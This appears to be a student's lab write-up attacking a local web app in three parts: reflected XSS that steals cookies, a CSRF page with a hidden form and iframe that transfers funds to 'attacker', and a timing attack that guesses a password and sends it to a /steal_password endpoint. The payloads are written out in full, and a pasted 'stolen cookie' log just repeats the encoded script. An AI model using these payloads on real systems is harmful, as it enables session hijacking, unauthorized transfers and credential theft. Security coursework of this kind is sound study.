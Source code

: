 # 1. Alpha Exploit: Cookie Stealing

Due to the instructions given in the document, I found out that the vulnerability is located in the router.js file:

```javascript
router.get('/profile', asyncMiddleware(async (req, res, next) => {
  if(req.session.loggedIn == false) {
    render(req, res, next, 'login/form', 'Login', 'You must be logged in to use this feature!');
    return;
  };

  if(req.query.username != null) { // if visitor makes a search query
    const db = await dbPromise;
    const query = `SELECT * FROM Users WHERE username == "${req.query.username}";`;
    let result;
    try {
      result = await db.get(query);
    } catch(err) {
      result = false;
    }
    if(result) { // if user exists
      render(req, res, next, 'profile/view', 'View Profile', false, result);
    }
    else { // user does not exist
      render(req, res, next, 'profile/view', 'View Profile', `${req.query.username} does not exist!`, req.session.account);
    }
  } else { // visitor did not make query, show them their own profile
    render(req, res, next, 'profile/view', 'View Profile', false, req.session.account);
  }
}));
```

To be exact in the scenario where the username that is searched does not exist, the code renders `profile/view` displaying the message that `"<username> does not exist!"`. At this very part we can exploit the cookie by sending a request to the `/profile` path with the queryparam `username` which is not present in the database. With a malicious request in a script, the cookie can be stolen.
In details, The script get the cookie and sends it to the server.

As demonstrated in the question, we already have the url ``` url http://localhost:3000/profile?username=```

In the next step the url is followed by the script that steals the cookie and sends it to the server in addition to hiding the message that indicates there is no such username.

``` javascript
<script>
document.querySelector('.error').style.visibility = 'hidden';

var cookieValue = document.cookie.includes('session=')
    ? document.cookie.split('session=')[1].split(';')[0]
    : '';

new Image().src = `http://localhost:3000/steal_cookie?cookie=${cookieValue}`;
</script>
```
after writing the script, I encoded the script with the help of a website ```url https://www.urlencoder.org/``` and received the url below:

``` url
%3Cscript%3E%0Adocument.querySelector%28%27.error%27%29.style.visibility%20%3D%20%27hidden%27%3B%0A%0Avar%20cookieValue%20%3D%20document.cookie.includes%28%27session%3D%27%29%20%0A%20%20%20%20%3F%20document.cookie.split%28%27session%3D%27%29%5B1%5D.split%28%27%3B%27%29%5B0%5D%20%0A%20%20%20%20%3A%20%27%27%3B%0A%0Anew%20Image%28%29.src%20%3D%20%60http%3A%2F%2Flocalhost%3A3000%2Fsteal_cookie%3Fcookie%3D%24%7BcookieValue%7D%60%3B%0A%3C%2Fscript%3E%0A
```

and then in the terminal of the IDE (server) there was a log of the cookie I stole:

```
%3Cscript%3E%0Adocument.querySelector%28%27.error%27%29.style.visibility%20%3D%20%27hidden%27%3B%0A%0Avar%20cookieValue%20%3D%20document.cookie.includes%28%27session%3D%27%29%20%0A%20%20%20%20%3F%20document.cookie.split%28%27session%3D%27%29%5B1%5D.split%28%27%3B%27%29%5B0%5D%20%0A%20%20%20%20%3A%20%27%27%3B%0A%0Anew%20Image%28%29.src%20%3D%20%60http%3A%2F%2Flocalhost%3A3000%2Fsteal_cookie%3Fcookie%3D%24%7BcookieValue%7D%60%3B%0A%3C%2Fscript%3E%0A
```

and confirmed that the cookie theft was successful!

# 2. Bravo Exploit: Cross-site request forgery (CSRF)

For the first step we need to alter tha changes in the browser's setting. In the privacy and security tab in firefox browser,we need to set the browser privacy to custom and enable cross-site tracking cookies.

followed by that there is the `b.html` file to fill.

There are 3 parts to the code:

1. The script in <head>

The JavaScript in the <head> defines and handles the malicious behavior of the page.
The `document.addEventListener("DOMContentLoaded", ...)` ensures the code runs only after the HTML document has fully loaded, and it guarantees that all elements like the form and iframe are accessible in the DOM before the script executes.
The constant `hijackUrl` stores the URL where the browser will redirect the user after the form submission process completes.
The variable let `isSubmitted = false` tracks whether the form has been submitted. It prevents accidental or repeated redirection before the form is submitted.
The `handleTransferAndRedirect()`` function is the core function that selects the form `(document.forms['transfer_form'])` and iframe `(document.getElementById("transformiFrame"))`.It submits the form using `form.submit()` to send data to the target endpoint. Additionally, it sets `isSubmitted` to true to indicate that the form has been sent.

This function adds an event listener to the iframe's load event:
When the iframe finishes loading, the browser checks if the form submission was completed `(isSubmitted === true)`.
If true, the browser redirects the user to the `hijackUrl`.

For the final step of this part, the call to `handleTransferAndRedirect()` executes the function immediately after defining it to initiate the form submission and set up the iframe listener.

2. The form in <body>
The form, identified by the `id="transfer_form"`, is configured to silently submit data to a specified endpoint (`http://localhost:3000/post_transfer`) using the `POST` method, with the results directed to a hidden iframe (`target="transformiFrame"`).
It includes two hidden inputs: `destination_username`, preset to `"attacker"`, and `quantity`, set to `10`, ensuring the transfer operation remains invisible to the user. These attributes collectively enable the seamless execution of the attack without the user’s knowledge.

3. The iFrame in <body>
The hidden iframe, identified by `id="transformiFrame"`, serves as an invisible intermediary to handle the form's response without user awareness. Its `name="transformiFrame"` attribute matches the form's `target` attribute, ensuring the form's submission results are loaded into the iframe. Once the form submission is complete and the iframe finishes loading the response, a `load` event is triggered in the JavaScript, redirecting the user to the predefined `hijackUrl`. This setup enables a seamless, covert operation.
I originally wanted to use the Promise function to have the functions executing in row but for some reason it did not work. Instead, I used the target attribute for form.


here are the links I used for this question:
``` url https://www.w3schools.com/tags/att_form_target.asp```
```url https://stackoverflow.com/questions/37146241/promise-not-working-properly```

# 3. Gamma Exploit: Timing Attack

In this part of the Homework, a timming attack is going to be performed. In this Scenario, Since the computation time of the server for the correct and incorrect passwords are not the same, the attacker can figure out which password is the correct one. 
In the given file of the question, there is a dictionary of the possible passwords containing the correct password.
In the following steps, I'm going to explain the completed version of the template provided under the name `Gamma_Starter.html` named as g.txt:
``` javascript
var dictionary = [`password`, `123456`, `12345678`, `dragon`, `1234`, `qwerty`, `12345`];
      var index = 0;
      var timings = [];
      var test = document.getElementById("test");
```
The `timings` array has been added to store the time each password candidate takes.

```javascript
test.onerror = function () {
        var end = new Date();
        var timeTaken = end - start;

        console.log(`Attempt ${index}: Password: "${dictionary[index - 1]}", Time elapsed: ${timeTaken} ms`);
        timings.push({ index: index - 1, time: timeTaken });

        start = new Date();

        if (index < dictionary.length) {
          console.log(`Testing password: "${dictionary[index]}"...`);
          test.src = `http://localhost:3000/get_login?username=userx&password=${dictionary[index]}`;
        } else {
          var maxTimeEntry = timings.reduce((max, current) =>
            current.time > max.time ? current : max
          );
          var guessedPassword = dictionary[maxTimeEntry.index];
          console.log(
            `Guessed Password: "${guessedPassword}", Max Time: ${maxTimeEntry.time} ms`
          );
          var theftUrl = `http://localhost:3000/steal_password?password=${guessedPassword}&timeElapsed=${maxTimeEntry.time}`;
          console.log(`Sending theft request with password "${guessedPassword}"...`);
          var theftImage = new Image();
          theftImage.src = theftUrl;
        }
        index += 1;
      };
```
In the function, `timeTaking` has been added to calculate the exact time that a password takes time to be checked. 
Later, I placed a log in the code that each try for a password be logged and I would be able to check it in the logs of my docker container.
![image](https://github.com/user-attachments/assets/7e7924b0-aec8-4d97-b88a-b0fedcf41a0e)
After the logs, each timing is stored in the `timing` array.
As long as we have not reached the end of the array, each password is tested in the `test.src` url. After that the `maxTimeEntry` variable, stores the max time that a password has taken to be checked by being checked in the `else` with the current time.
In the next step, there is the `guessedPassword` variable holding the element in the dictionary via finding it by the index of `maxTimeEntry` and then it logs it.(The correct password can be seen in the image above.)
The last part of the code sends a request to a server with the guessed password and its response time by dynamically creating a URL (`theftUrl`). An `Image` object (`theftImage`) is used to initiate the request by setting its `src` property to the URL. This triggers an HTTP GET request, and a log indicates the request is being sent with the guessed password. 



